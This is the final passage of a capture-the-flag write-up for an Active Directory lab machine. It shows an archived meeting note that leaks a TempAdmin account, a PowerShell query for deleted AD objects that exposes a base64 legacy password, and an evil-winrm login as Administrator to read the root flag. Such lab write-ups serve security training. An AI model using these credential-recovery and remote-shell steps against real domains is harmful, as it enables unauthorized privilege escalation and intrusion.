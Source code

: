 Going back to the `Data` share, there was a file `Meeting_Notes_June_2018.html` in `\IT\Email Archives\`:

{% highlight raw %}
...
<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>
...
{% endhighlight %}

Hmm... If we can somehow recover `TempAdmin`, we might be able to get the password of the `Administrator` account!

Lets see if we can retrieve information about deleted objects!

{% highlight raw %}
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -properties *
...
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
...
{% endhighlight %}

Like `r.thompson`, `TempAdmin` had a `cascadeLegacyPwd`, which is `baCT3r1aN00dles` when decoded!

# root.txt

Using [`evil-winrm`](https://github.com/Hackplayers/evil-winrm) for the final time, we finally get our flag!

{% highlight bash %}
$ ruby evil-winrm.rb -i cascade.local -u Administrator -p baCT3r1aN00dles
Evil-WinRM shell v2.3                                                                                                                
                                                                                                                                     
Info: Establishing connection to remote endpoint                                                                                     
                                                                                                                                         
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
f9f8XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !
